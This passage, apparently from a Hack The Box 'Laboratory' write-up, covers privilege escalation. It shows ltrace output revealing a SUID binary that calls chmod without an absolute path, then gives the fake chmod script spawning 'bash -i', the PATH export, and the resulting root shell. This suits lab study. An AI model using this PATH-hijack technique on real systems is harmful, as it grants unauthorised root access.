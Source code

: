 # 20-Privesc

Look at the SUID binaries ![](https://github.com/quangtien0101/HTB_Laboratory/tree/61be6c501b6c846246628c926fa3d7dcd963be87/Laboratory/Screen-shot/SUID%20docker-security.png)

The binary is owned by `dexter` and we can executed as `root`

## ltrace

```bash
dexter@laboratory:~$ ltrace /usr/local/bin/docker-security
setuid(0)                                                                                                            = -1
setgid(0)                                                                                                            = -1
system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                               = 256
+++ exited (status 0) +++
```

We see that once we are root, we can hijack the `chmod` binary since it doesn't use the absolute path

create a `chmod` executable which essentially start a `bash` shell

```bash
#!/bin/bash
echo "chmod hijack"
bash -i
```

```bash
dexter@laboratory:/dev/shm$ vi chmod
dexter@laboratory:/dev/shm$ chmod +x chmod 
dexter@laboratory:/dev/shm$ export PATH=$(pwd):$PATH
dexter@laboratory:/dev/shm$ /usr/local/bin/docker-security
chmod hijack
root@laboratory:/dev/shm# cat chmod
```

![](https://github.com/quangtien0101/HTB_Laboratory/tree/61be6c501b6c846246628c926fa3d7dcd963be87/Laboratory/Screen-shot/Gain%20root.png)


